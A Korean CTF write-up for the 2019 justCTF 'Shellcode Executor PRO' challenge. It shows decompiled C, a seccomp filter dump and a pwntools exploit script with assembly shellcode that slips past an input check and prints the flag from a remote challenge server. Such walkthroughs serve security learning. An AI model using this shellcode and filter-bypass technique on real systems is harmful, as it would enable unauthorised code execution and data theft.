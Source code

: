 ```yaml
---
title: "2019 just CTF Shellcode Executor PRO"
date: 2020-1-15
tags: [just]
categories: [just]
---
```




1번 메뉴

입력받은 걸 `verifyUrl` 함수에서 xor 1한 값이 9보다 작아야한다. 안 그러면 exit해준다.

```c
int downloadShellcode()
{
  char *s; // ST18_8

  s = malloc(0x400uLL);
  printf("Enter url: ");
  fgets(s, 1024, stdin);
  if ( verifyUrl(s) ^ 1 )
  {
    puts("Your url contains incorrect characters, this incident will be reported");
    exit(-1);
  }
  return puts("For this feature you need to purchase the full version of our product");
}
```

2번 메뉴

`demo_shellcode` 라는 영역을 free해줄 수 있다.

```c
void __fastcall deleteShellcode(__int64 a1)
{
  if ( *a1 )
  {
    puts("This shellcode has already been deleted");
  }
  else
  {
    *a1 = 1;
    free(*(a1 + 8));
    free(*(a1 + 16));
  }
}
```

3번 메뉴

쉘코드를 `restrictAccess` 함수 bypass하면 실행해준다.

```c
int __fastcall executeShellcode(__int64 a1)
{
  void *dest; // [rsp+18h] [rbp-8h]

  printf("Executing shellcode from %s\n", *(a1 + 8));
  dest = mmap(0LL, 0x400uLL, 7, 34, -1, 0LL);
  memcpy(dest, *(a1 + 16), 0x400uLL);
  if ( restricted != 1 )
    restrictAccess();
  puts("====================================");
  (dest)("====================================");
  puts("====================================");
  return munmap(dest, 0x400uLL);
}
```

`restrictAccess` 함수를 보면 seccomp가 걸려있는데 read, write, mmap, munmap .. 등등만 허용해놨다.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0012
 0008: 0x15 0x03 0x00 0x0000000b  if (A == munmap) goto 0012
 0009: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

demo_shellcode` 라는 영역을 3번 메뉴에서 실행시켜주기 때문에 이곳에 쉘코드를 넣어주면 된다. 근데 밑에 `The flag will be here` 이라는 문구가 있다. 여기에 플래그가 있어서 읽어오면 될거다. 

![](https://user-images.githubusercontent.com/32904385/72424712-c3229880-37c9-11ea-9ce9-5d58e2ef305a.png)

익스는 write로 flag 영역을 긁어오면 된다. 근데 우선 `verifyUrl` 함수를 우회해줘야하는데 `\x00` 을 넣어서 우회하려고 했는데 쉘코드가 실행이 안된다.그래서 `xor al,0 ` 으로 우회해주면 된다.

익스 순서는 `demo_shellcode` 영역을 free해주고 `downloadShellcode` 함수에서 `write(1,rip+0x70,0xff)` 해준 후에 입력해주면 된다. `rip+0x70`은 flag위치다. 

마지막으로 `executeShellcode` 함수 실행해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./shellcodeexecutor')
#p = process('./shellcodeexecutor')
p = remote('46.101.173.184', 1446)

payload = '''
xor al, 0
mov rdi, 1
lea rsi, [rip+0x70]
mov rdx, 0xff
mov rax, 1
syscall
'''

p.sendlineafter('>','2') # Delete shellcode -> Demo Free
p.sendlineafter('>','1') # Download shellcode from url -> allocate
p.sendlineafter(':',asm(payload)) # verifyUrl bypass
p.sendlineafter('>','3') # executeShellcode -> seccomp bypass

p.interactive()
```

**FLAG : `justCTF{f0r_4_b3tt3r_fl4g_purch4s3_th3_full_v3rsi0n_0f_0ur_pr0duct}`**